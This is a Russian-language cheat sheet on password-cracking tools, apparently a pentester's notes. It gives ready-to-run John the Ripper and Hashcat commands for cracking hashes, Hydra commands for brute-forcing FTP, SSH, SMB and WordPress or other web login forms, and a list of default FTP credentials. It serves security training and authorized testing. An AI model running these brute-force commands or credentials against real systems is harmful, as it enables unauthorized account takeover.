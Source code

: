 ## John the ripper

Имея hash пароля пытается подобрать верный пароль.
Пример:
```bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format={hash format, напримире bcrypt} resultFile.txt
```
### MD5

Пример:
```bash 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
или стандартный взлом hash-а:
```bash
john hash.txt --show
```
### Zip archive
```bash
zip2john archive.zip > arch.hash
john arch.hash -w rockyou.txt
```
Для взлома архива ZIP на видеокарте, можно использовать эту команду:
```bash
john --format=ZIP-opencl --wordlist=/usr/share/wordlists/rockyou.txt ~/Desktop/archive.hash
```
### JWT
```bash
john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256
```

---

# Hashcat

## Введение 

**Hashcat** — легендарный взломщик паролей, предназначенный для взлома даже самых сложных паролей. Популярный инструмент позволяет взломать пароль разными способами. В этой статье я покажу, как пользоваться **Hashcat**.

Еще по теме: [Как с помощью документа перехватить хеш NTLMv2-SSP](https://spy-soft.net/intercept-ntlmv2-ssp-hash-and-bruteforce-password/)

Представления паролей в первую очередь связаны с хэш-ключами, такими как **MD5, SHA, WHIRLPOOL, RipeMD, NTMLv1, NTMLv2** и т. д.

**Hashcat** переводит читаемые данные в искаженное состояние (это случайная строка фиксированного размера). Хэши не позволяют кому-либо расшифровать данные с помощью определенного ключа, как это позволяют стандартные протоколы шифрования. **Hashcat** использует предварительно вычисленные словари, радужные таблицы и даже методы брутфорса, чтобы найти эффективный и действенный способ взлома паролей.

Кстати, про использование Hashcat в Windows, мы рассказывали в [этой статье.](https://spy-soft.net/hashcat-windows/)

## Использование

Некоторые из наиболее важных параметров **hashcat** — это `-m` (тип хеша) и `-a` (режим атаки). В общем, нам нужно использовать оба варианта в большинстве попыток взлома паролей при использовании **Hashcat**.

Взлом хэшей:
```bash
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt rockyou.txt
```
Где:
- `-m 0` - тип хеша, который мы взламываем (MD5).
- `-a 0` - атаку по словарю.
- `-o cracked.txt` - выходной файл.
- `target_hashes.txt` - хэши, которые нужно взломать.
- `rockyou.txt` - список паролей.


---

# Hydra

### Введение 

[Hydra](https://github.com/vanhauser-thc/thc-hydra) - это распараллеленый брутфорс паролей к различным сервисам (**FTP, POP3, IMAP, Telnet, HTTP Auth, NNTP, VNC, ICQ, PCNFS, CISCO** и др.) для **UNIX** платформ. С помощью этой утилиты вы можете атаковать несколько сервисов одновременно.

В основе программы лежит модульная структура. С помощью Гидры пароль можно подобрать к более чем 30 протоколам, включая **telnet, ftp, http, https, smb, несколькими СУБД**, и т.д. Кстати, Hydra [брутит и SSH](https://spy-soft.net/bruteforce-ssh-metasploit/), но для этого требуется наличие библиотеки **libssh**. 

### Ключи 

- `-R` – восстановить ранее прерванную сессию Hydra;
- `-S` – использовать SSL для подключения;
- `-s` – указать порт;
- `-l` – использовать логин;
- `-L` – выбирать логины из файла со списком;
- `-p` – использовать пароль;
- `-P` – использовать пароль из файла со списком;
- `-M` – взять список целей из файла;
- `-x` – генератор паролей;
- `-u` – по умолчанию hydra проверяет все пароли для первого логина, эта опция позволяет проверить один пароль для всех логинов;
- `-f` – выйти, если правильный логин/пароль найден;
- `-o` – сохранить результат в файл;
- `-t {number}` – количество потоков для программы;
- `-w` – время между запросами в секундах;
- `-v` – подробный вывод;
- `-V` – выводить тестируемые логины и пароли.
- `4:4:1` - пароль размером четыре символа, состоящий только из цифр. А именно все пароли в диапазоне 0000-9999;
- `4:8:1` - пароль от четырех до восьми символов, только из цифр;
- `4:5:aA1.` - пароль, размером от 4 до 5 символов, состоит из цифр, букв верхнего и нижнего регистра или точки.

### FTP сервер, SSH, SMB

Буду использовать специально уязвимую машину [Metasploitable](https://spy-soft.net/install-metasploitable-virtual-box/). 

Вы можете использовать логины и пароли по умолчанию, содержащиеся в списке` ftp-betterdefaultpasslist.txt`, который входит в набор **SecLists**. Ниже приводится копия всего словаря для брута:
```
anonymous:anonymous
root:rootpasswd
root:12hrs37
ftp:b1uRR3
admin:admin
localadmin:localadmin
admin:1234
```
Не все словари, входящие в набор [SecLists](https://www.kali.org/tools/seclists/ "SecLists"), такие же короткие. Фактически приведенный выше список паролей — один из самых коротких в коллекции **SecLists**, что делает его отличным вариантом для демонстрации брута паролей с помощью **Hydra**. Чем длиннее список, тем больше времени придется брутить.

Запустите Hydra, используя следующую команду, где `192.168.1.101` — это **IP**-адрес целевого сервера (в моем случае —  **Metasploitable**):
> `-C`, если у вас есть файл с логинами и паролями к ним разделёнными двоеточиями.
```
hydra -C ./ftp-betterdefaultpasslist.txt 192.168.1.101 ftp
```

Пример брутфорса пароля **SSH** на порту **{port}**:
```bash
hydra -l {username} -P {brutList.txt} ssh:{IP}:{port}
```
Брутфорс авторизации по **smb**:
```bash
hydra -L users.txt -P pass.txt {IP} smb -V
```
### Брут внутри формы авторизации

Пример брутфорса пароля внутри формы авторизации на `wordpress/wp-login.php`:
```bash 
hydra -L {username} -p {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
```bash
hydra -l {username} -P {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Брутворс формы авторизации на конкретном сайте:
``` bash
hydra -t 5 -L UserList -P PasswordList {домен} http-post-form -m "/webapps/login/:user_id=§^USER^§&password=§^PASS^§&login=§Login§&action=§login§&new_loc=§§:F=The username or password you typed is incorrect" -V -f
```


---
# Взлом Hash-а - hash-identifier
```bash
hash-identifier
HASH: {hash}
```

---

# Другие

Вот еще несколько популярных инструментов для подбора паролей:

[Metasploit](https://github.com/rapid7/metasploit-framework) - это многофункциональный инструмент для тестирования на проникновение, который имеет модули для подбора паролей и поддерживает различные протоколы и сервисы.

[LEGBA](https://github.com/evilsocket/legba) - многопротокольный брутфорсер учетных данных на языке **Rust**.

[Medusa](https://github.com/jmk-foofus/medusa) - еще один инструмент для атаки на пароли, который также поддерживает различные протоколы.

[Ncrack](https://github.com/nmap/ncrack) - инструмент для взлома паролей **SSH**, **RDP**, **FTP** и так далее. Имеет возможность многопоточного сканирования.